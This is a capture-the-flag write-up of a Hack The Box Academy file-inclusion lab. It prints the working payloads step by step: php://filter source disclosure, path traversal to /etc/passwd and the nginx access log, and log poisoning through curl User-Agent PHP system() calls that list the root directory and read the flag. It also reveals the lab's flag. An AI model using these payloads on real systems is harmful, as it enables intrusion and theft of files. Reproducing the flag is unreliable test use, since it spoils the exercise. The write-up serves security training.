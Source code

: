 # Write-up: File Inclusion

| Vulnerability | Difficulty | Platform | Key concepts |
| :--- | :--- | :--- | :--- |
| File Inclusion | Medium | Hack The Box Academy | Local File Inclusion, Log Poisoning |

---

# Context

The company INLANEFREIGHT has contracted you to perform a web application assessment against one of their public-facing websites. They have been through many assessments in the past but have added some new functionality in a hurry and are particularly concerned about file inclusion/path traversal vulnerabilities.

They provided a target IP address and no further information about their website. Perform a full assessment of the web application checking for file inclusion and path traversal vulnerabilities.

Find the vulnerabilities and submit a final flag using the skills we covered in the module sections to complete this module.

Don't forget to think outside the box!

# Exercise

Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.

# Process
## Step 1 "Search Vulnerable Parameter"

Navigating through the website I found that clicking in other sections it search for a page in the url parameters, so we can check if the parameter is vulnerable.
![Found potential attack by accesing other sections](./assets/search_vulnerable_parameter.png "Found potential attack")

## Step 2 "Test parameter"
After several tries with different payloads I found this one, that allowed me to get the `index.php` file.
```
php://filter/convert.base64-encode/resource=index
```
This parameter will encode to base64 the entire file to void the server to execute it.
![Reading PHP file by converting index.php to base64](./assets/index_base64.png "Get index.php using the parameter")

As we can see, we got the file in base64, so now we need to decode it and then analyse it to see if we found something.

## Step 3 "Analyzing index.php"
After decoding and analysing the file, I found a comment in the site naviation.
```PHP
<div class="col-12 col-md-10 d-none d-xl-block">
            <nav class="site-navigation position-relative text-right" role="navigation">

              <ul class="site-menu js-clone-nav mx-auto d-none d-lg-block">
                <li class="active"><a href="index.php">Home</a></li>
                <li><a href="index.php?page=about">About Us</a></li>
                <li><a href="index.php?page=industries">Industries</a></li>
                <li><a href="index.php?page=contact">Contact</a></li>
		<?php 
		  // echo '<li><a href="ilf_admin/index.php">Admin</a></li>'; 
		?>
              </ul>
            </nav>
          </div>
```
it shows a button that redirects user to another page `ilf_admin` that has the name of Admin, let's investigate that page.

## Step 4 "Navigating the Admin panel"
The page is indeed an admin panel, it has other different pages that we will need to navigate to see if there is another vulnerable parameter.
![Navigating to ilf_admin shows an admin panel](./assets/ilf_admin.png "Navigating to ilf_admin")

## Step 5 "Check log parameter"
After found a parameter, I fuzzed the value to find any payload that can show me that the parameter is vulnerable, the one that worked is this:
```
../../../../../../../../../../../etc/passwd
```
It shows the etc/passwd file.
![Accessing etc/passwd with the parameter](./assets/etc_passwd.png "etc/passwd file")

## Step 6 "Reading access.log"
Since the `log` parameter is vulnerable, we can start checking for other file, in this case I will read the `access.log` with this payload and check for a possible log poisoning.
```
../../../../../../var/log/nginx/access.log
```
![Getting access logs using the parameter](./assets/access_logs.png "Nginx access logs")

## Step 7 "Log Poisoning"
Now we need to inject php code with the `user-agent`, this way when we search for the `access.log` again, it will execute the php code.
```shell
curl -A "<?php system('ls /'); ?>" http://94.237.57.1:45810/
```
![Using ls with log poisoning to show files at root](./assets/ls_root.png "ls /")

The php code was executed and we got the files from the root folder.

## Step 8 "Get the flag"
Now we need to inject another php command but to to read the `flag`.
```shell
curl -A "<?php system('cat /flag_dacc60f2348d.txt'); ?>" http://94.237.57.1:45810/
```
![Getting flag through log poisoning in ilf_admin with the log parameter](./assets/flag.png "Read flag with cat and log poisoning")

## Result
```
a9a892dbc9faf9a014f58e007721835e
```

# Conclusion
This assessment demonstrated how a seemingly simple file inclusion vulnerability can escalate into full remote code execution. By chaining techniques—initial discovery with php://filter, path traversal to access sensitive files, and log poisoning to execute arbitrary commands—it was possible to compromise the system and retrieve the final flag. The exercise highlights the critical importance of proper input validation, secure file handling, and log management in preventing real-world exploitation.
